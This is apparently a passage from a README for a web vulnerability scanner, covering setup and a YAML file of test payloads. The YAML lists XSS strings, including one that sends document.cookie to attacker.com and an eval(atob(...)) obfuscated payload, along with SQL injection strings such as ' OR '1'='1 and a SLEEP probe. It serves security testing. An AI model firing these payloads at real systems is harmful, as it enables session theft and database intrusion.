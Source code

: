 #### Full Installation (AI + No-AI Mode)
```bash
# Install all dependencies
pip install -r requirements.txt

# Set up API keys (optional)
export GROQ_API_KEY="your_groq_key"
export OPENAI_API_KEY="your_openai_key"
export ANTHROPIC_API_KEY="your_anthropic_key"
export GOOGLE_API_KEY="your_google_key"
```

## Configuration

### Payload Configuration (`payloads_config.yaml`)

The tool uses a YAML configuration file to define payloads for different vulnerability types. You can customize these without modifying code:

```yaml
xss_payloads:
  basic:
    - "<script>alert('XSS')</script>"
    - "<img src=x onerror=alert('XSS')>"
    - "<svg onload=alert('XSS')>"
  
  advanced:
    - "<script>fetch('https://attacker.com/steal?data='+document.cookie)</script>"
    - "<img src=x onerror=eval(atob('YWxlcnQoJ1hTUycpOw=='))>"

sqli_payloads:
  basic:
    - "' OR '1'='1"
    - "' OR 1=1--"
    - "\" OR \"1\"=\"1"
  
  advanced:
    - "' AND (SELECT COUNT(*) FROM INFORMATION_SCHEMA.TABLES)>0--"
    - "' OR SLEEP(5)--"
```

### Adding New Payloads

1. Edit `payloads_config.yaml`
2. Add payloads to the appropriate section
3. The tool will automatically load new payloads on next run

### Custom Heuristics

To add new vulnerability detection patterns, modify the `detection_heuristics` section in the YAML file:
